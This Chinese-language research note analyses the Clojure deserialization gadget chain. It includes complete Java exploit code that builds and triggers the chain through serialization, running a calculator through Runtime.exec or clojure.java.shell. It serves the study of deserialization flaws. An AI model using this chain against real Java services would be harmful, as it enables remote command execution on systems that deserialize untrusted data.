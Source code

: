 # Clojure

> [Clojure](https://clojure.org/) 是一种运行在 Java 平台上的 Lisp 方言，Lisp 是一种以表达性和功能强大著称的编程语言。这个漏洞的作者是 JackOfMostTrades，是 [gadgetinspector](https://github.com/JackOfMostTrades/gadgetinspector) 的作者，并且在其 2018 年 blackhat 上议题的 [PPT](https://i.blackhat.com/us-18/Thu-August-9/us-18-Haken-Automated-Discovery-of-Deserialization-Gadget-Chains.pdf) 中以此链为例子进行了自动化挖掘的描述。

## 前置知识

Clojure中的语法和使用java对象: https://clojuredocs.org/clojure.java.shell/sh,http://www.javashuo.com/article/p-bmwnzqgu-ht.html.

```clojure
 (use '[clojure.java.shell :only [sh]]) (sh "ls" "-aul")
```

使用java对象

```
user=> (import [java.util Date Stack]
user=> (Date.)
#inst "2016-06-28T15:19:05.923-00:00"

 (.indexOf "hello,clojure" "j") 调用方法
 (java.lang.Math/abs -3) 分开类和成员 
 System.out.println(System.getProperties().get("os.name"));
 (.. System (getProperties)(get "os.name"))
```

```
(. (Runtime/getRuntime) exec"calc")
```

## exp

```java
// 执行系统命令的两种写法，本质都是使用 java.lang.Runtime 类
		String payload1 = "(import 'java.lang.Runtime)\n" +
				"(. (Runtime/getRuntime) exec\"open -a Calculator.app\")";

		String payload2 = "(use '[clojure.java.shell :only [sh]])\n" +
				"(sh\"open\" \"-a\" \"Calculator.app\")";

		// 初始化 AbstractTableModel$ff19274a 对象
		AbstractTableModel$ff19274a model = new AbstractTableModel$ff19274a();

		HashMap<Object, Object> map = new HashMap<>();

		// 使用 core$constantly$fn__4614 保存 payload 对象，调用其 invoke 方法时会返回 payload
		core$constantly$fn__4614 core1 = new core$constantly$fn__4614(payload2);
		// 将 core$constantly$fn__4614 和 main$eval_opt 保存在 core$comp$fn__4727 中
		core$comp$fn__4727 core2 = new core$comp$fn__4727(core1, new clojure.main$eval_opt());


		// 将 hashCode 与 core$comp$fn__4727 进行映射
		map.put("hashCode", core2);
		model.__initClojureFnMappings(PersistentArrayMap.create(map));

		// 使用 HashMap hashCode 触发
//		HashMap<Object, Object> hashMap = new HashMap<>();
//		hashMap.put(model,"su18");
//		hashMap.put("su19","su20");
//		SerializeUtil.writeObjectToFile(hashMap, fileName);

		// 实例化 BadAttributeValueExpException 并反射写入
		BadAttributeValueExpException exception = new BadAttributeValueExpException("su18");
		Field                         field     = BadAttributeValueExpException.class.getDeclaredField("val");
		field.setAccessible(true);
		field.set(exception, model);
```

## 分析

### main$eval_opt

![image-20220512235130177](https://img.dem0dem0.top/images/image-20220512235130177.png)

![image-20220512235451831](https://img.dem0dem0.top/images/image-20220512235451831.png)

所以

```java
String payload = "(use '[clojure.java.shell :only [sh]])(sh\"calc\")";
main$eval_opt.invokeStatic(payload);
```

### AbstractTableModel$ff19274a

这个类是

![image-20220512235947122](https://img.dem0dem0.top/images/image-20220512235947122.png)

可以调用对象的invoke方法。这个类的__clojureFnMap是`IPersistentMap`,猜测是封装的map类型

```
PersistentArrayMap.create 可以封装。
```

### core$comp$fn__4727

他的invoke方法

![image-20220513000426222](https://img.dem0dem0.top/images/image-20220513000426222.png)

实际上这个类是整条调用链的关键，我们只需要让 `this.g` 是 `main$eval_opt` 类，`this.f` 的 invoke 方法返回待解析的恶意 payload。

### core$constantly$fn__4614

在调用 `doInvoke` 方法时返回，而由于其 `getRequiredArity()` 方法也返回 0，因此调用其 invoke 方法时，也会返回 `this.x` 中储存的对象。

`constantly`关键字了属于是。



## ending

```java
new clojure.core$comp().invoke(
						new clojure.main$eval_opt(),
						new clojure.core$constantly().invoke(clojurePayload))				
						
// 使用 core$constantly$fn__4614 保存 payload 对象，调用其 invoke 方法时会返回 payload
core$constantly$fn__4614 core1 = new core$constantly$fn__4614(payload2);
// 将 core$constantly$fn__4614 和 main$eval_opt 保存在 core$comp$fn__4727 中
core$comp$fn__4727 core2 = new core$comp$fn__4727(core1, new clojure.main$eval_opt());
```

```javascript
        // 执行系统命令的两种写法，本质都是使用 java.lang.Runtime 类
        String payload1 = "(import 'java.lang.Runtime)\n" +
            "(. (Runtime/getRuntime) exec\"calc\")";

        String payload2 = "(use '[clojure.java.shell :only [sh]])\n" +
            "(sh\"calc\")";

        // 初始化 AbstractTableModel$ff19274a 对象
        AbstractTableModel$ff19274a model = new AbstractTableModel$ff19274a();

        HashMap<Object, Object> map = new HashMap();

        // 使用 core$constantly$fn__4614 保存 payload 对象，调用其 invoke 方法时会返回 payload
        core$constantly$fn__4614 core1 = new core$constantly$fn__4614(payload2);
        // 将 core$constantly$fn__4614 和 main$eval_opt 保存在 core$comp$fn__4727 中
        core$comp$fn__4727 core2 = new core$comp$fn__4727(core1, new clojure.main$eval_opt());


        // 将 hashCode 与 core$comp$fn__4727 进行映射
        map.put("toString", core2);
        model.__initClojureFnMappings(PersistentArrayMap.create(map));

        // 使用 HashMap hashCode 触发
//		HashMap<Object, Object> hashMap = new HashMap<>();
//		hashMap.put(model,"su18");
//		hashMap.put("su19","su20");
//		SerializeUtil.writeObjectToFile(hashMap, fileName);

        // 实例化 BadAttributeValueExpException 并反射写入
        BadAttributeValueExpException exception = new BadAttributeValueExpException("su18");
        Field field     = BadAttributeValueExpException.class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(exception, model);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(exception);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
```

直接toString触发了

